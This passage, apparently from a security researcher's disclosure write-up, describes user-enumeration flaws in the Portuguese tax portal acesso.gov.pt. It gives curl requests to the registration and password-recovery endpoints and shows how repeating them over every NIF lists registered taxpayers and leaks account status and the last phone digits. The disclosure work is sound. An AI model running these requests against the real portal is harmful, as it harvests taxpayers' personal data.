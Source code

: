 The submit request is:

``` sh
curl -X POST \
  https://www.acesso.gov.pt/unauthed/novoUtilizadorForm \
  -H 'content-type: application/x-www-form-urlencoded' \
  -H 'cookie: autentica_JSessionID=VALID_SESSION' \
  -d 'nif=VALID_NIF&partID=PFAP&_csrf=VALID_XSRF_TOKEN'
```

And the second message looks like this:

{{ image(
    path="images/finance-tax-portal-2/accountstatus.png",
    alt="NIF is already registered.",
    caption_no="3",
    caption="NIF is already registered."
) }}

By parsing the HTML response and repeating the request for every valid NIF, it is possible to obtain a list of all registered NIFs.

## NIF + Partial Phone Number & Account Data Enumeration

Now let's go back to the initial page and through with the reset password flow. Clicking the `Recuperar senha` (Recover password) link will redirect the user to the following page:

{{ image(
    path="images/finance-tax-portal-2/recover-password.png",
    alt="Recover password page - Step 1.",
    caption_no="4",
    caption="Recover password page - Step 1."
) }}

After typing 9 digits on the NIF field, a XHR is sent so the website can get more information regarding the provided value, and to show the next step.

The request in question is the following:

``` sh
curl -X POST \
  https://www.acesso.gov.pt/unauthed/verificarNif \
  -H 'content-type: application/x-www-form-urlencoded' \
  -H 'cookie: autentica_JSessionID=VALID_SESSION' \
  -d 'nif=NIF&partID=PFAP&_csrf=VALID_XSRF_TOKEN'
```

The response always has the same format, and in case the provided NIF has a phone number associated, the JSON field `phoneNumber` will contain the last 3 digits:

``` javascript
{
  "isSuspendedUser": "false",
  "phoneNumber": "******123",
  "isCanceledUser": "false"
}
```
